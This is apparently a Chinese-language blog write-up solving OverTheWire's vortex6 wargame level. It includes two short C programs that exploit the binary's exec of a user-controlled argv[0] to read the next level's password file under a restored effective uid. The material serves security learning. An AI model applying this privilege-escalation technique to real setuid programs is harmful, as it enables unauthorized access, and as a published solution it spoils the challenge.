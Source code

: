 ```yaml
---
title: vortex6
author: rk700
layout: post
categories:
  - writeup
tags:
  - OverTheWire
  - exploit
---
```

反汇编之后，发现同样存在format string。但这次还有一restart函数，检查发现他exec了我们的argv[0]。但是argv[0]可以是任意的内容提交给他，所以我们写一个读密码的程序：

{% highlight c %}
#include <unistd.h>
#include <stdio.h>

int main (int argc, char *argv[]) {
    seteuid(5007);
    FILE *fp = fopen("/etc/vortex_pass/vortex7", "r");
    char buf[128];
    size_t numRead = fread(buf, 1, sizeof buf, fp);
    buf[numRead] = 0;
    printf("%s\n", buf);
    return 0;
}
{% endhighlight %}


因为在exec过程中，euid被保存到saved uid里，所以我们要先恢复euid。但这里我不知道怎么得到saved uid，只能hard coded

然后写一个程序调用vortex6:

{% highlight c %}
#include <unistd.h>

int main (int argc, char *argv[]) {
    char *args[] = {"/tmp/nabla/read",NULL};
    execv("/vortex/vortex6", args);
}
{% endhighlight %}